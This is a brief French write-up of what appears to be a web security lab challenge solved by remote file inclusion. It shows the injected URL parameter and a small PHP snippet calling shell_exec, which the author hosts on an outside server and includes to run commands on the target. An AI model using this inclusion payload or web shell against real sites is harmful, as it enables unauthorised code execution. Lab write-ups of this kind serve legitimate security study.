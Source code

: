 ## Remote

Ahah, je sais que je vais devoir injecter du code malicieux pour bypass les sécurités mises en places !

Pour tester on peut injecter ça dans l'url

```URL
https://remote.secu-web.blackfoot.dev/index.php?lang=https://www.google.com
```
![remote image](remote.PNG "gooooooooooooooogle")


Maintenant faisons notre injection php

```PHP
<?php
echo shell_exec("ls");
?>
```

je commence par créer un fichier php qui exécute la commande **ls un cat pour voir le contenu des fichiers**
je upload ce fichier sur mon super serveur dans le but d'injecter ce code malicieux hehe.

```URL
https://remote.secu-web.blackfoot.dev/index.php?lang=https://media.alors-la.center/s/0vyufe2p.php
```URL

![remote image](remote2.PNG "flaaaaaaaaag")



